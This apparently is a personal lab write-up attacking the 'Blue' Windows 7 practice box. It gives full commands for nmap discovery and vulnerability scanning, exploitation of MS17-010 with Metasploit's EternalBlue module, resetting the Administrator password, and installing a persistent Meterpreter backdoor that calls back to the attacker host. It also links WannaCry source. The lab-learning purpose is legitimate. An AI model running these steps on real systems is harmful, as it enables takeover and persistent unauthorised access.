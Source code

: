 # Blue Box: My Try

## Part 0:

-   `sudo su`

## Part 1: Find IP of the Blue Box

1. `ifconfig`
    - my ip is 192.168.110.131
2. search in my own subnet -> `nmap -sP 192.168.110.1/24`
    - five IP's
        - 192.168.110.1 -> should probably the VMware NAT IP address
        - 192.168.110.2 -> should probably the VMware NAT IP address
        - 192.168.110.131 -> my own
        - 192.168.110.135 -> possible IP
        - 192.168.110.254 -> possible IP
3. `nmap -sV 192.168.110.135 192.168.110.254`
    - windows ports are available in 192.168.110.135 -> the target IP
4. `nmap -sV -p- -O --open -A 192.168.110.135`
    - -p- -> all ports deep scan
    - -O -> show OS also
    - --open -> show only accessible ports
    - -A -> all possible info
    - Observations
        - OS : Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
        - 445 port open (SMB)
        - smb2-security-mode: 2.1

## Part 2: Find Vulnerabilities

1. find vulnerabilities -> `nmap --script vuln 192.168.110.135`
    ```
    smb-vuln-ms17-010:
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
    ```
2. vulnerability found -> google it -> found [this link](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)

3. metasploit
    - `msfconsole`
    - `use exploit/windows/smb/ms17_010_eternalblue`
    - `show info`
        - Thanks a lot to Equation Group, Shadow Brokers and all the amazing minds that provided us with this exploit
    - `show options`
    - `set RHOSTS 192.168.110.135`
    - check RPORT is 445 -> the SMB port of the target
    - checked LHOSTS is my IP and LPORT is above 3000
    - `run` (uses auxiliary/scanner/smb/smb_ms17_010 as check)

## Part 3: Inside

1. `shell` -> open cmd in the target computer
2. `whoami` -> "nt authority\system" -> admin in simple language
3. `net user Administrator hello123` -> change password of the admin -> now you can login from the windows using the `hello123` as password

## Part 4: Meterpreter Backdoor
[Guide link](https://www.hackers-arise.com/how-to-make-the-meterpreter-persistent)

1. `exit` -> exit from windows shell to meterpreter
2. `run persistence -A -L c:\\ -X -i 30 -p 443 -r 192.168.110.131`
3. `background` -> set current meterpreter session to background
4. `show sessions` -> you will see two sessions now -> one is your and one is persistent 
5. go back to your session (in port 4444) -> `session <id>`
6. `exit` the session 
7. now go to the backdoor session

## More possible stuffs
-   Patch the vulnerability -> update windows [(source)](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
-   Ransomware -> found wannacry live code but didn't cause I am sacred it might leak into the network and screw up actual laptop [(source)](https://github.com/chronosmiki/RANSOMWARE-WANNACRY-2.0)


